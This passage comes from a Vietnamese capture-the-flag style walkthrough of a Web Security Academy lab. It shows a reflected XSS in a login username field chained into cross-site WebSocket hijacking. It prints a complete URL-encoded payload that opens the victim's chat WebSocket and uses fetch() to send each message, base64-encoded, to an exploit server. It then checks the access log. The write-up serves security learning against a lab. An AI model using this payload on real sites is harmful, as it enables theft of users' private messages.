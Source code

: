 ![img](https://imgur.com/bKInjxI.png)

--> Thành công inject đoạn script vào username. 

Thử thay đổi POST thành GET request: 

![img](https://imgur.com/qXkBEri.png)

![img](https://imgur.com/P0kQWgQ.png)

--> Server vẫn chấp nhận GET request.

Lấy lại đoạn payload và mã hóa dưới dạng URL: 

![img](https://imgur.com/bxisJZl.png)

Chèn payload đã encode vào username field: 

![img](https://imgur.com/gYV5ICH.png)

Send thử Request này: 

![img](https://imgur.com/Qw0Ibvh.png)

--> Chèn payload thành công vào username field.

Tạo payload mới:

    <script>
    document.location = "https://cms-0a2500c0040995d582ea1fac00000038.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%32%35%30%30%63%30%30%34%30%39%39%35%64%35%38%32%65%61%31%66%61%63%30%30%30%30%30%30%33%38%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%20%0a%20%20%20%20%20%20%20%20%7d%0a%0a%20%20%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%20%20%20%20%20%20%66%65%74%63%68%28%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%39%62%30%30%62%32%30%34%38%62%39%35%31%65%38%32%63%63%31%65%65%30%30%31%32%63%30%30%63%64%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%0a%20%20%20%20%20%20%20%20%7d%0a%3c%2f%73%63%72%69%70%74%3e&password=123456";
    </script>

![img](https://imgur.com/2aIQzcv.png)

Store và Deliver exploit to victim sau đó đợi vài giây và kiểm tra Access log: 

![img](https://imgur.com/q0sWwfB.png)

-->Message của nạn nhân đã được gửi đến endpoint. 

Giải mã message: 
